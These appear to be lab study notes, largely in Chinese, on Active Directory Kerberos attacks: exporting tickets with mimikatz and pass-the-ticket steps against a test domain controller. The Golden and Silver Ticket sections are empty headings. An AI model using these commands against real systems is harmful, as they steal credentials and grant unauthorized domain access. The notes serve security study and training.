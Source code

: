Kerberos
===
🔙 [MENU README](./AD.md)


![](./kerbors.png)

# Export Kerberos Tickets
Environment
```bash
# 2019 DC 

klist  
# TGT
# 1. 第一張一定是TGT
# 2. Server : krbtgt (由krbtgt這個帳號簽出來的)

# TGST
# 1. Host  : TGST
```
mimikatz
```bash
# https://github.com/gentilkiwi/mimikatz/releases
mimikatz

privilege::debug

sekurlsa::tickets /export
```
```
@之前的是帳號
krbtgt的是GoldenTicket
```
# Pass The Ticket
```
Windows + R : \\ADWin\c$
Copy mimikatz x64 票券過去

# Win Ad
Change Local Administrator Password
並重新登入Local Administrator

dir \\server2019.lpt.com\admin$ #驗證不會通過
cd 到剛剛複製的mimikatz x64資料夾
```
```bash
mimikatz #進入mimikatz

# 找到Administrator@krbtgt那張票匯入
kerberos::ptt "*.kirbi"

# 查看匯入的票券
kerberos::list
misc::cmd
klist

# 測試已經可以touch到AD
dir \\server2019.lpt.com\admin$

# 清除匯入的票據
kerberos::purge
```

# Golden Ticket Attack (TGT)



# Sliver Ticket Attack (TGST) 